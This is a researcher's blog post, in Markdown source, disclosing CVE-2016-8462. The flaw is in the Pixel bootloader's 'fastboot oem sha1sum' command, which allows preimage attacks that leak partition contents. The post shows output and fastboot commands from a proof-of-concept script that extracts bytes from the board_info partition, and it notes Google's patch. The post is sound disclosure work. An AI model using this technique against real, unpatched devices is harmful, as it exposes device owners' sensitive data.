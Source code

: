 ```yaml
---
layout: post
title: fastboot oem sha1sum
author: Roee Hay
date: '2017-01-04'
tags:

---
```


In the [January 2017 Android Security Bulletin](https://source.android.com/security/bulletin/2017-01-01.html#id-in-bootloader), Google provided a patch to CVE-2016-8462, an interesting vulnerabiltiy in the Pixels' bootloader. I reported this issue to Google last December, but unfortunately got beat by Jon Sawyer ([@jcase](https://twitter.com/jcase)) and Sean Beaupre ([@firewaterdevs](https://twitter.com/firewaterdevs)), who reported it in October, so kudos to them!


Google Pixel's bootloader contains a proprietary fastboot oem command ('sha1sum'). This commands accepts three
arguments: partition name, size and offset, with the constraint that size >= offset. Thus, a physical attacker, a
malicious charger or a malicious host (with ADB access -- that can reboot the device to the bootloader) can easily
compute the preimage of the first bytes of any partition. This may allow the attacker to leak sensitive information
out of the device. In addition to the first bytes, one can conduct a preimage attack of higher offsets if a specific
pattern is (approximately) known , such as a known suffix or a prefix. 
What you can see below is the output of two
runs of our PoC against the board_info partition. The first run leaks bytes 0-7 ("HTC-BOAR") and the second run
leaks bytes 158-161 ("\xA2\x80\x00\x00")

{% highlight C %}


>> preimage.py board_info
> fastboot oem sha1sum board_info 0 1 = 7cf184f4c67ad58283ecb19349720b0cae756829 (1 bytes )
00000000 : 48 H
> fastboot oem sha1sum board_info 1 1 = c2c53d66948214258a26ca9ca845d7ac0c17f8e7 (1 bytes )
00000001 : 54 T
> fastboot oem sha1sum board_info 2 2 = f1dfdb58024fd801bb8d8d91b16183f255579149 (2 bytes )
00000002 : 43 C
00000003 : 2d -
> fastboot oem sha1sum board_info 3 3 = 16ad0e2f78e56b3d6dc93bd203e12b8118605de5 (3 bytes )
00000004 : 42 B
00000005 : 4f O
> fastboot oem sha1sum board_info 4 4 = 7e426c6d5f7b5ce99624a8e678a79828180bcd77 (4 bytes )
00000006 : 41 A
00000007 : 52 R
>> preimage.py board_info 4 158
> fastboot oem sha1sum board_info 158 158 = 45b1b0a4fe2bbefb1f7eb001b57bcb61a1d025b9 (158 bytes )
0000009e : a2 
0000009f : 80
000000a0 : 00
000000a1 : 00

{% endhighlight %}

Google's patch now prevents running the command on an arbitrary partition.

